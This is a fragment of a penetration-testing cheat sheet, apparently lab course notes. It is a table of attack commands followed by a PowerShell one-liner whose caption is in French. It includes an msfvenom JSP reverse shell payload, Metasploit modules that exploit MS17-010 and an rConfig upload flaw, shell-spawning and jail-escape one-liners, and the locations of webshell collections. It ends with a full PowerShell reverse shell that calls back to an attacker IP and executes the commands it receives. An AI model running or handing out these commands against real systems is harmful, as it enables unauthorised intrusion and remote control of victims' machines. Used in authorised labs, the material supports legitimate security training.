 | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war`       | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload                                                                                                                   |
| `use auxiliary/scanner/smb/smb_ms17_010`                                                            | Metasploit exploit module used to check if a host is vulnerable to `ms17_010`                                                                                                                           |
| `use exploit/windows/smb/ms17_010_psexec`                                                           | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17_010                                                                                 |
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce`                                       | Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting `rConfig 3.9.6`                                                                               |
| `python -c 'import pty; pty.spawn("/bin/sh")'`                                                      | Python command used to spawn an `interactive shell` on a linux-based system                                                                                                                             |
| `/bin/sh -i`                                                                                        | Spawns an interactive shell on a linux-based system                                                                                                                                                     |
| `perl —e 'exec "/bin/sh";'`                                                                         | Uses `perl` to spawn an interactive shell on a linux-based system                                                                                                                                       |
| `ruby: exec "/bin/sh"`                                                                              | Uses `ruby` to spawn an interactive shell on a linux-based system                                                                                                                                       |
| `Lua: os.execute('/bin/sh')`                                                                        | Uses `Lua` to spawn an interactive shell on a linux-based system                                                                                                                                        |
| `awk 'BEGIN {system("/bin/sh")}'`                                                                   | Uses `awk` command to spawn an interactive shell on a linux-based system                                                                                                                                |
| `find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`                             | Uses `find` command to spawn an interactive shell on a linux-based system                                                                                                                               |
| `find . -exec /bin/sh \; -quit`                                                                     | An alternative way to use the `find` command to spawn an interactive shell on a linux-based system                                                                                                      |
| `vim -c ':!/bin/sh'`                                                                                | Uses the text-editor `VIM` to spawn an interactive shell. Can be used to escape "jail-shells"                                                                                                           |
| `ls -la <path/to/fileorbinary>`                                                                     | Used to `list` files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute          |
| `sudo -l`                                                                                           | Displays the commands that the currently logged on user can run as `sudo`                                                                                                                               |
| `/usr/share/webshells/laudanum`                                                                     | Location of `laudanum webshells` on ParrotOS and Pwnbox                                                                                                                                                 |
| `/usr/share/nishang/Antak-WebShell`                                                                 | Location of `Antak-Webshell` on Parrot OS and Pwnbox                                                                                                                                                    |


Powershellone-liner utilisé pour se reconnecter à un écouteur qui a été démarré sur une boîte d'attaque:

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(( $i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```  

